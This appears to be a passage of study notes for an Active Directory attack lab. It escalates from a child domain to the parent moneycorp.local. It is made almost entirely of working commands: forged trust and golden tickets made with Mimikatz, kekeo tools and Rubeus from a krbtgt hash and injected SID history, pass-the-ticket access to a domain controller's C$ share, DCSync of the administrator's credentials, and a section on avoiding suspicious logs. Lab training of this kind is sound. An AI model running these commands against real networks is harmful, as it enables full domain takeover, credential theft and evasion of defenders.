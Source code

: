 #### Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket.
```powershell
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
```

Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well.

#### Use the TGS to access the targeted service (may need to use it twice). 
```powershell
.\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi 

ls \\mcorp-dc.moneycorp.local\c$

# With Rubeus
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorpdc.moneycorp.local /ptt 

ls \\mcorp-dc.moneycorp.local\c$
```

# Learning Objective 19

Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using the domain trust key.

## Child to Parent Using krbtgt hash

#### Abuse SID history once again 
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'
```

#### On any machine of the current domain 
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"' 

ls \\mcorp-dc.moneycorp.local\c$ 

gwmi -class win32_operatingsystem -ComputerName mcorp-dc.moneycorp.local
```

#### Avoid suspicious logs
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:dcorp-dc$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631- 3219952063-538504511 /groups:516 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ptt"' 

Invoke-Mimikatz -Command '"lsadump::dcsync /user:mcorp\Administrator /domain:moneycorp.local"'
```
